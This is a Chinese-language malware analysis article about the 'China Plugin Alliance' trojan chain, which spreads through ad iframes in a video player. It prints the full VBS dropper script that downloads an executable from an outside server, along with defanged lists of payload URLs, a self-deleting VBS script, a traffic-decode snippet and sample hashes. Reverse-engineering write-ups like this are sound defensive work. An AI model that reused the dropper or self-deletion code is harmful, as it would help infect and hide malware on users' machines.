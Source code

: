 # 来自播放器的你——“中国插件联盟”木马分析

0x00 前言
=====

![enter image description here](http://drops.javaweb.org/uploads/images/af7d682f36d6bcee3374ede4f3ff934ac0573225.jpg)

图：播放器挂马行为链

在国内流行的影音播放器客户端内嵌广告中，有一部分来自广告联盟和各种营销平台。在搜狐影音展示的一个私服广告页面中，我们监测到一个恶意的iframe标签，标签内容带有一段vbs脚本。

0x01  vbs脚本
=====

该脚本的作用是将远程服务器上的svchost.exe程序重命名为putty.exe（一个下载者）文件：

```
1: Set xPost=createObject("Microsoft.XMLHTTP") 
2: xPost.Open "GET","http://183.xxx.80.93:3389/svchost.exe",0 
3: xPost.Send() 
4: set sGet=createObject("ADODB.Stream") 
5: sGet.Mode=3 
6: sGet.Type=1 
7: sGet.Open() 
8: sGet.Write xPost.ResponseBody 
9: sGet.SaveToFile "C:\Windows\Temp\putty.exe",2
10: Set xPost=createObject("Microsoft.XMLHTTP") 
11: xPost.Open "GET","http://183.xxx.80.93:3377/svchost.exe",0 
12: xPost.Send() 
13: set sGet=createObject("ADODB.Stream") 
14: sGet.Mode=3 
15: sGet.Type=1 
16: sGet.Open() 
17: sGet.Write xPost.ResponseBody 
18: sGet.SaveToFile "C:\Windows\Temp\putty.exe",2

```

0x02 putty.exe程序分析
=====

读取远程服务器上的txt文档，进行批量下载

读取hxxp://txt.ichajianlianmeng.com:88/1001.txt页面的内容，然后进行下载。调用用InternetConnectA建立远程访问

![enter image description here](http://drops.javaweb.org/uploads/images/84b0acc367efb326321ff373fb738d6712c6cacc.jpg)

通过httpOpenRequestA和HttpSendRequestA创建请求并发送请求到HTTP服务器：

![enter image description here](http://drops.javaweb.org/uploads/images/cf559d262afd813f9173bfad89638720735fd0da.jpg)

读取到远程服务器中的txt保存的内容(该文件中的内容经常变动，一段时间能捕获到远控木马。)

```
hxxp://down.ichajianlianmeng.com:888/sie.exe
hxxp://www.yczuowenwang.com/xp.exe
hxxp://cdn.yuu361.com/download/Fresh_20i5_052039fc.exe
hxxp://down.woka123.cn/qudao/lol/dmxyxhh_504.exe
hxxp://down.biomall.org.cn/meng/up/niutu410202.exe
hxxp://down.nvjay.com:6677/huajun/huajun_15-8.exe
hxxp://down.ichajianlianmeng.com:888/59801_6789_sd1.exe
hxxp://down.sushouspell.com/sushou/sw/-2208_1_ss.exe
hxxp://download.suxiazai.com/for_down/2013/install1552262.exe

```

通过InternetReadFile依次读取上面链接的内容到程序中：

![enter image description here](http://drops.javaweb.org/uploads/images/7c759d245cad389ccf76f2bdaf64f158725e98ae.jpg)

创建文件、写入数据、执行该程序：

![enter image description here](http://drops.javaweb.org/uploads/images/e69e1712c5cc15eb71501b094cca9031ca0da73b.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/facaf7b9edb7e234eee8617081a029a0abb0768f.jpg)

后面就循环读取完链接中的内容并创建进程，第一轮下载就完毕了：

![enter image description here](http://drops.javaweb.org/uploads/images/769a78cc6dc3faea5861c9bb445527a2b695a0b6.jpg)

中间会创建一个空的MD5文件，该文件只是用来做标记，如果再次运行这个下载者就不再进行下载了：

![enter image description here](http://drops.javaweb.org/uploads/images/68562515dfc72df22b9bc67297eacbcab3462ca3.jpg)

0x03 sie.exe---|下载者里的下载者
=====

木马就像混黑社会似的，也喜欢打群架，这个下载者又放出一个下载者，两者的功能和实现都一样，这里就不再重复分析了。

第二轮下载通过访问hxxp://txt.ichajianlianmeng.com:88/siedown.txt文件中的以下链接进行下载：

```
1: http://down.meituview.com/MTViewbuildmtview_116.exe
2: #
3: http://down.secaikan.com/sckt/jm/setup_sc150002.exe
4: #
5: http://down.shkbx.com/SC_rg0cfc_xt2005_1.exe
6: #
7: http://down.shkbx.com/SC_rg0cfc_xt2000_1.exe
8: #
9: http://down.woka123.cn/qudao/lol/dmxyxhh_505.exe
10: #
11: http://down.sou2v.com/UserFiles/install_107_1a.exe
12: #
13: http://down.sushouspell.com/sushou/sw/-2208_1_ss.exe

```

然后得到以下文件：

![enter image description here](http://drops.javaweb.org/uploads/images/b8e28582e66f6cec182c572d1c0e1bd640eba989.jpg)

如果中招，电脑会变成如下样子。重启后桌面图标还会更多一些，为照顾密集恐惧症患者，这里不再贴出：

![enter image description here](http://drops.javaweb.org/uploads/images/29935bb410d836678cfcb0def87a40e6fcb4e6d3.jpg)

0x04 xx360.exe远控木马
=====

和所有木马作者一样，“中国插件联盟”对360的仇恨也是深入骨髓。再看看该下载者放出的远控木马（xx360）。

通过乱序字符串拼接的方式获取到即将创建文件的路径：

![enter image description here](http://drops.javaweb.org/uploads/images/630075fe6c73717e4cf7ad4466d34f06c85ec23b.jpg)

创建文件、访问hxxp://61.160.195.24:666/NetSyst81.dll并读取数据到内存中

![enter image description here](http://drops.javaweb.org/uploads/images/59108ccdecd909e81966a026306dfb012519176a.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/bfb5c0442f54381ee7a87bb8bc9cad5f2ddc300f.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/e48b2cda7bfabe5564e24bfc7ef6bc7d22985cb8.jpg)

将刚刚读取到的数据写入NetSys.dll文件中

![enter image description here](http://drops.javaweb.org/uploads/images/009141b24d43aac5a7b26adb6c8e98a0dc950111.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/66898cfa42fc06c2d7e80deb627ada5c44125f77.jpg)

读取NetSys.dll中的内容，并在内存再申请空间，解密刚刚获取到的NetSys.dll文件，解密后获得一个PE结构的文件(利用这样的方法迷惑杀毒软件)：

![enter image description here](http://drops.javaweb.org/uploads/images/6fc6e153a78b555ba08d3446359d97fa43b98d25.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/2e09c8407a35ab82db7a79f582d69d6a23d00d1b.jpg)

创建并执行Terms.EXE.exe文件：

![enter image description here](http://drops.javaweb.org/uploads/images/2029b7c467536750fdf3dd110a34949e5b68b40b.jpg)

创建注册表和服务，达到隐藏和长期驻扎在用户电脑里而且开机自启动：

![enter image description here](http://drops.javaweb.org/uploads/images/a8720848d0b1e074cdffed3c1679791e3a71d192.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/540c83255d1b5ec5e319e3351dcbaa9b5177e732.jpg)

释放vbs文件，删除自身，使自己隐藏起来：

```
1: dim wsh
2: On Error Resume Next
3: set wsh=createObject("WScript.Shell")
4: Set objFSO = CreateObject("Scripting.FileSystemObject")
5: wscript.sleep 1000
6: objFSO.DeleteFile("C:\Documents and Settings\Administrator\桌面\360.exe"), True
7: createobject("scripting.filesystemobject").deletefile wscript.scriptfullname      

```

对远控抓包分析（原来的远控木马已经不能连接上了，这里把自己的主机配置成该目标程序），一看就是zlib格式的，前面就是一个头，截取后面的拿去python脚本里跑一跑：

![enter image description here](http://drops.javaweb.org/uploads/images/08da5d60e1653e5c01299f40dfb018f7e96bc8df.jpg)

用Python解密后，看到自己电脑的操作系统版本，以及用户名，还有上线时间了

```
1: a = 'b313640002154620310788598118c4d6e062606002d2c1a9456599c9a90a0189c9d90ac60c7407cc208211e8220510e3c00ac60686ff20b137f68c50150220820b44241695649416eb1a1a269ba6985b1a32182d3c68ac676ce4ee51c56070e68dc1a98d26e6dbaf31d88459e8991bda2904c71b1a19181b98321819189aea1a98e91a1a29181a5a9918321c5973e2fcf66bd75f329cdbb27dd1f96b0a0c0029dd29b0'
2: import codecs
3: b = codecs.decode(a, 'hex_codec')
4: zlib.decompress(b, -8)

```

![enter image description here](http://drops.javaweb.org/uploads/images/2fe2e046f5dba1118f07cd6e36504083ebbdf148.jpg)

0x05 部分样本信息
=====

以下是通过“中国插件联盟”下载者捕获到的文件MD5。由于该远程服务器上的数据包在不断更新，获取到的安装包有很大量，以下只是其中一部分：

```
1: e3198f710f307e16413cd7d599f971ebc
2: e3198f710f307e16413cd7d599f971eb
3: 1552ccfa8cef81056d5c23d167cafd19c
4: 1552ccfa8cef81056d5c23d167cafd19
5: bba33d5501a780c392e4da520506da25
6: 6b08cdde7530efab0a9a5275ff4867b3
7: abba9c49e181f27b4f387ab88c505646
8: a22e31255f3092f4d1b429d76976ba0f
9: 8268182d660f2d72c05ff3c2bec90f61
10: 8910b238873a26f76854c102eab68673
11: 2a011d1c0ad02a9acf5315ccb7657713
12: e41c325df557e54ab95ff5dc81abfd8c
13: 20d6852156af4db9cac546e666a436ff
14: a22e31255f3092f4d1b429d76976ba0f
15: e0126226ff5a65b283db12d02ccc5a1d
16: 27c38edd7fd7c8c2eeddac457a407c0f
17: 8fa79dd7f1ba8b047862a904c69d40da
18: e94591e1dd94d0ea6fe2f03d9cdde05c
19: 6d0678e31452aafd6aee2c4947b4ef48
20: 6a5ab49d61623e22618e8b9c4904e85f
21: 45529e071f7f5d5b05705a9e35c5ddab
22: 5312719ecc909d4c47452eacc8452c73
23: 5312719ecc909d4c47452eacc8452c73
```